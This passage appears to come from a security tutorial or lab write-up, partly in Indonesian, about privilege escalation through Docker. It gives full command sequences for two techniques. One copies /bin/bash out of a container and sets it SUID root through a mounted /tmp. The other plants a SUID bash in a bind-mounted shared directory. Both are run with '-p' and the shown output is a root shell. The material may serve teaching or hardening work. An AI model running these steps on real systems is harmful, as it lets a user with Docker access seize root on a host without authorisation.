 #### 5.2.1 Create Temporary Container
```bash
docker run -d --name temp-container production-app sleep 3600
```

#### 5.2.2 Copy /bin/bash dari Container
```bash
docker cp temp-container:/bin/bash /tmp/.docker-cp-bash
```

#### 5.2.3 Set SUID Permissions
```bash
# Butuh akses root untuk set SUID, jadi kita buat container untuk set permissions
docker run --rm -v /tmp:/mnt production-app chmod 4755 /mnt/.docker-cp-bash

# Verify
ls -la /tmp/.docker-cp-bash
```

#### 5.2.4 Execute dan Cleanup
```bash
/tmp/.docker-cp-bash -p
whoami
# root

# Cleanup
docker rm -f temp-container
```

### 5.3 Technique 3: Shared Directory Attack

#### 5.3.1 Setup Shared Directory
```bash
# Sebagai developer di host
mkdir ~/shared
docker run -it --rm -v /home/developer/shared:/app/shared production-app /bin/bash
```

#### 5.3.2 Di Dalam Container
```bash
# Export bash ke shared directory
cp /bin/bash /app/shared/.shared-bash
chmod 4755 /app/shared/.shared-bash
exit
```

#### 5.3.3 Execute dari Host
```bash
~/shared/.shared-bash -p
whoami
# root
```

---

